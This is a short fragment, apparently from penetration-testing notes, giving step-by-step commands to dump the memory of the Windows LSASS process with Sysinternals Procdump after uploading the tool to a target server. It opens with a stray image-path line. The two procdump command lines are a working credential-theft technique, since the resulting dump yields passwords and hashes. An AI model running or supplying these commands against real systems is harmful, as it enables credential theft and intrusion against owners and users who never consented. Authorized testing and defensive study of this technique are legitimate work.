 Download Procdump:
https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx

- Upload the “Procdump” tool to the in-scope server
- procdump.exe -accepteula -ma lsass.exe lsass.dmp
- procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
